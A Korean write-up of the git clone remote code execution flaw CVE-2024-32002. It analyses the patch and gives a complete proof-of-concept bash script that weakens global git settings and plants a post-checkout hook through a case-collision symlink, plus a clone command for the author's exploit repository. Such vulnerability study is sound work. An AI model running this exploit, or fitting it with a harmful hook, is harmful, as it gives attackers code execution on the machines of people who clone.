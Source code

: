 # git clone을 통한 Remote Code Execution 공격 (CVE-2024-32002)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)
<br/>

## 배경 설명
해당 취약점은 대소문자를 구분하지 않는 Windows, MacOS와 같은 파일 시스템에서 submodule을 포함하는 git 저장소를 clone할 때 발생하는 `RCE(Remote Code Execution)` 취약점이다. RCE는 원격 코드 실행 취약점으로 공격자가 대상 시스템에서 원하는 명령어를 실행할 수 있는 아주 치명적인 취약점이다.
`A/modules/x` 과 `a/modules/x`은 동일한 경로로 취급된다. 이러한 특징과 심볼릭 링크를 활용하여 취약점을 유발한다.

## 취약점 정보
- 해당 POC는 Windows와 MAC 시스템에서만 동작합니다.
- `git config --global core.symlinks false`로 설정된 경우에는 공격이 작동하지 않습니다.


## 취약점 분석
[취약점 패치 확인](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)

### `builtin/submodule--helper.c`
dir_contains_only_dotgit 함수: 디렉터리에 .git 파일만 포함되어 있는지 다른 디렉터리도 포함되어 있는지 확인하고 다른 파일이나 디렉터리가 있으면 오류를 반환한다.
clone_submodule 함수: clone하기 전에 하위 모듈 디렉토리가 존재하고 비어있는지 확인한다.

### `t/t7406-submodule-update.sh`

### 1. Global 구성
```sh
test_config_global protocol.file.allow always &&
test_config_global core.symlinks true &&
tell_tale_path="$PWD/tell.tale" &&
```
해당 스크립트는 Git 구성 옵션을 설정한다. protocol.file.allow always를 통해 Git의 파일 프로토콜을 활성화 한다.

core.symlinks true를 설정하여 심볼릭 링크 사용을 허용한다.

tell_tale_path는 RCE가 제대로 잘 작동됬는지 확인하는데 사용한다.

### 2. hook 설정
```sh
git init hook &&
(
  cd hook &&
  mkdir -p y/hooks &&
  write_script y/hooks/post-checkout <<-EOF &&
  echo HOOK-RUN >&2
  echo hook-run >"$tell_tale_path"
  EOF
  git add y/hooks/post-checkout &&
  test_tick &&
  git commit -m post-checkout
) &&
```
1. hook 레퍼지토리를 초기화 한다.
2. post-checkout이라는 hook을 생성
3. hook 스크립트를 저장소에 커밋

### 3. 메인 저장소 설정
```sh
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
  cd captain &&
  git submodule add --name x/y "$hook_repo_path" A/modules/x &&
  test_tick &&
  git commit -m add-submodule &&
  printf .git >dotgit.txt &&
  git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
  printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
  git update-index --index-info <index.info &&
  test_tick &&
  git commit -m add-symlink
) &&
```
- hook의 경로 저장
- captin이라는 다른 레퍼지토리 초기화
- hook 저장소를 `A/modules/x`에 하위모듈로 추가한 후 커밋
- .git을 가리키는 a라는 심볼릭링크 생성

### 4. 테스트
```sh
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```
- RCE가 작동됐는지 확인

### POC 제작
```sh
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git init hook
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
echo "I'm roronoa" > /tmp/pwnd
calc.exe
open -a Calculator.app
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked
```

git은 특정 이벤트가 생겼을 때 자동으로 스크립트를 실행할 수 있도록하는 hook이라는 것이 존재한다. 위치는 .git/hooks 디렉토리에 존재한다.
post-checkout은 checkout한 후에 실행되는 스크립트이다.

![image](https://github.com/Roronoawjd/git_rce/assets/105417063/95806f9f-1f69-46df-a71e-ac6bf97b318b)

순서는 다음과 같다.
1. clone 저장소 git_rce에 `.git`을 가리키는 심볼릭 링크 `a`가 생성
2. git clone할 때 하위 모듈의 경로가 `A/modules/x`가 아니라 `a/modules/x`로 인식됨
3. `a`는 `.git`을 가리키기 때문에 `.git`에 `/modules/x`가 생기고 `y/hooks/post-checkout`이 생성됨
4. checkout 성공 후 자동 후 `git_rce/.git/modules/x/y/hooks/post-checkout`가 실행되어 RCE가 발생함

## POC(Proof of Concept)
⚠️경고: 해당 취약점을 악의적으로 사용하지 마시오!
<pre><code>git clone --recursive https://github.com/Roronoawjd/git_rce.git</code></pre>
참고: Windows에서는 관리자 권한으로 cmd나 bash쉘을 열어서 실행해야 합니다.

